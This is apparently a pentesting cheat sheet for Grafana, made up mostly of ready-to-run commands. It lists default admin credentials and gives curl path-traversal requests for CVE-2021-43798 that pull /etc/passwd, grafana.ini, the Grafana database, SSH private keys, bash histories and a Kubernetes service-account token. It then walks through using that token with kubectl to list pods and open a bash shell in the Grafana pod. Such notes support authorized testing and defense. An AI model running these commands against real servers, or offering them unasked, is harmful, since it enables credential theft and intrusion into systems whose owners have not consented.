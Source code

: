 ```yaml
---
title: Grafana Pentesting
description: Grafana is a multi-platform analytics and interactive visualization web application.
tags:
    - Web
refs:
date: 2023-01-15
draft: false
---
```


## Default Credential

```sh
admin:admin
admin:prom-operator
```

<br />

## Configuration File

The configuration file contains the admin credentials. See the “admin_user” and “admin_password” section in the file.

```txt
/etc/grafana/grafana.ini
```

<br />

## Path Traversal

```sh
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../etc/passwd -o passwd
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini -o grafana.ini
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../root/.ssh/id_rsa
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../root/.bash_history
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../home/grafana/.ssh/id_rsa
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../home/grafana/.bash_history
```

<br />

## Getting a Shell vis JWT, Grafana Pod

Some Grafana versions are vulnerable to Path Traversal. Kubernetes creates environment variables by default.

### 1. Check Environment Variables on the Target Machine

```sh
env
```

If you got the GRAFANA environment like the following, the Grafana service is running on the cluster.  

```txt
GRAFANA_SERVICE_HOST=10.108.133.228
GRAFANA_PORT=tcp://10.108.133.228:3000
GRAFANA_PORT_3000_TCP=tcp://10.108.133.228:3000
```

### 2. Access the Grafana Dashboard

You can access the service at **http://\<grafana-ip>:\<grafana-port>**.  

### 3. Get the JWT of the Service Account

Using Path Traversal ([CVE-2021-43798](https://github.com/jas502n/Grafana-CVE-2021-43798)).

```sh
curl --path-as-is http://<grafana-ip>:<grafana-port>/public/plugins/alertlist/../../../../../../../../etc/passwd
```

Get the token (JWT) of the service account.

```sh
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
```

### 4. Decode the JWT and Get Sensitive Information

See **[JWT Pentesting](./jwt-pentesting)**.
    

### 5. Check Your Permission of This Service

Using the JWT, you should get permissions.

```sh
kubectl auth can-i --list --token=<Grafana-JWT>

# List pods
kubectl get pods --token=<JWT>
```

### 6. Get a Shell on the Grafana Pod

```sh
kubectl exec -it <grafana-pod-name> --token=<Grafana-JWT> -- /bin/bash
```
